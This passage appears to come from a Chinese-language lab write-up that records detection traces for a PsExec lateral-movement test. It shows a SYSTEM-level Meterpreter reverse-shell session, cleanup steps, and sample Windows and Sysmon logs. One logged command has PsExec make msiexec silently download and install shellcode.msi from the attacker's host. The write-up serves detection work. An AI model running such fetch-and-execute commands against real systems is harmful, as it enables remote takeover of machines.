      [*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.149:49371) at 2025-06-08 04:24:44 +0800
     meterpreter > getuid
     Server username: NT AUTHORITY\SYSTEM
     ```
5. **验证结果**：
   - 检查靶机是否创建`C:\Windows\PSEXESVC.exe`。
   - 使用Wireshark捕获TCP 445（SMB）和TCP 4444（反弹Shell）流量。
   - 验证Sysmon日志是否记录`PsExec.exe`、`PSEXESVC.exe`和`msiexec.exe`的进程创建。
6. **清理**：
   - 靶机：
     ```dos
     del C:\Windows\PSEXESVC.exe
     del C:\Users\12306Br0\Desktop\PSTools\PsExec.exe
     ```
   - 攻击机：
     ```bash
     rm shellcode.msi
     ```

## 测试留痕
以下为Windows安全日志示例（事件ID 4688，PsExec进程创建）：
```yml
EventID: 4688
TimeCreated: 2025-06-08T04:24:29.237Z
Channel: Security
Hostname: WIN7-TARGET
SubjectUserSid: S-1-5-21-1234567890-123456789-1234567890-1001
SubjectUserName: 12306Br0
SubjectDomainName: 12306Br0-PC
SubjectLogonId: 0x6e1ea
NewProcessId: 0xe84
NewProcessName: C:\Users\12306Br0\Desktop\PSTools\PsExec.exe
ProcessCommandLine: PsExec.exe -d -s msiexec.exe /q /i http://192.168.126.146/shellcode.msi
CreatorProcessId: 0xdac
CreatorProcessName: C:\Windows\System32\cmd.exe
TokenElevationType: %%1936
```

以下为Sysmon日志示例（事件ID 1，PSEXESVC创建）：
```yml
EventID: 1
UtcTime: 2025-06-08T04:24:29.284Z
ProcessGuid: {bb1f7c32-1829-5e9b-0000-00108c864001}
ProcessId: 4044
Image: C:\Windows\PSEXESVC.exe
FileVersion: 2.2
Description: PsExec Service
Product: Sysinternals PsExec
Company: Sysinternals
CommandLine: C:\Windows\PSEXESVC.exe
CurrentDirectory: C:\Windows\system32\
User: NT AUTHORITY\SYSTEM
LogonId: 0x3e7
IntegrityLevel: System
Hashes: SHA1=A17C21B909C56D93D978014E63FB06926EAEA8E7
ParentProcessId: 496
ParentImage: C:\Windows\System32\services.exe
```
